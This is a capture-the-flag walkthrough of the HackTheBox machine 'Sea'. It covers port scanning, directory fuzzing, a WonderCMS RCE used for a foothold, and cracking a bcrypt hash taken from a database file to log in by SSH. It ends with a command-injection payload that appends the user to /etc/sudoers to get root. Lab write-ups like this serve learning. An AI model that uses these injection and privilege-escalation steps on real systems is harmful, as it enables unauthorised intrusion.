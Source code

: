 # export ip=10.10.11.28

# Date 17-08-24 || Rohit Tiwari

# HTB machine

![](Attachments/Pasted%20image%2020240817200002.png)

# Nmap Scan

> Done nmap scan to find more about the ports openn on the site

```<>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
```


# Port 80
>On port 80 found a simple webpage written in php with apache server running on ubuntu (From wappazlyer)

![](Attachments/Pasted%20image%2020240817200424.png)

> Found a contact.php form where you can send data,email,name etc

![](Attachments/Pasted%20image%2020240817202020.png)

Let's try to furthure enumerate it


# USing fuff 
> I tried to find sub dir and found /themes/bike

```<>
┌──(dedrknex㉿kali)-[~/oscp/hackthebox/Sea_10.10.11.28]
└─$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -u  http://$ip/themes/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.28/themes/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

home                    [Status: 200, Size: 3670, Words: 582, Lines: 87, Duration: 154ms]
404                     [Status: 200, Size: 3361, Words: 530, Lines: 85, Duration: 152ms]
Reports List            [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 154ms]
external files          [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 154ms]
Style Library           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 153ms]
                        [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 149ms]
bike                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 148ms]

```

> An After some more finding found sub dir

![](Attachments/Pasted%20image%2020240817204558.png)

> Found that wondercms is running on searching found a rce in github


>Tried to run the script but ddin't got revershell

![](Attachments/Pasted%20image%2020240818172652.png)

> Then tried to read the python script and  found the way to manually exploit it

![](Attachments/Pasted%20image%2020240818172748.png)



## Got intial foothold

![](Attachments/Pasted%20image%2020240817205515.png)

> After login in found that all other user access is blocked can't read user.txt
> so moved to /var/www/sea/data found a `database.js`

> Inside that found hash in bycrpt form

![](Attachments/Pasted%20image%2020240818175038.png)

hash-> `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

> To crak this hash have to remove '\'
> 

## crack pass

```<>
┌──(root💀lulz-SwingIncome)-[~]
└─# john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 32 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:38 0.01% (ETA: 2024-08-21 13:21) 0g/s 45.11p/s 45.11c/s 45.11C/s 2hot4u..jesusfreak
0g 0:00:00:44 0.01% (ETA: 2024-08-21 14:36) 0g/s 45.30p/s 45.30c/s 45.30C/s harris..abcdefgh
mychemicalromance (?)
1g 0:00:01:09 DONE (2024-08-17 15:50) 0.01434g/s 45.45p/s 45.45c/s 45.45C/s skater1..heaven1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

![](Attachments/Pasted%20image%2020240817212409.png)

found pass as `mychemicalromance`

>Then ssh to one of the user and got shell

```bash
┌──(dedrknex㉿kali)-[~/oscp/hackthebox/Sea_10.10.11.28]
└─$ ssh amay@$ip

Last login: Sun Aug 18 11:23:07 2024 from 10.10.16.17
amay@sea:~$ id
uid=1000(amay) gid=1000(amay) groups=1000(amay)
```

> Obtained the user.txt now time for get root access tried some comman prives command found nothing

```bash
amay@sea:/home$ sudo -l
[sudo] password for amay: 
Sorry, user amay may not run sudo on sea.
```

> On running linpeas found some ports open on localhost

![](Attachments/Pasted%20image%2020240818180648.png)

> So tried to port forward using

``
`ssh -L 8080:localhost:8080 amay@sea.htb`

Then run localhost:8080 on browser and got

![](Attachments/Pasted%20image%2020240818180908.png)

>There's analyzer button let's try to intercept using burp
>![](Attachments/Pasted%20image%2020240818182152.png)
>Found command injection


On the log file pasted a command that added amay as suders 

![](Attachments/Pasted%20image%2020240818185552.png)

command `; echo 'amay ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers`

Got root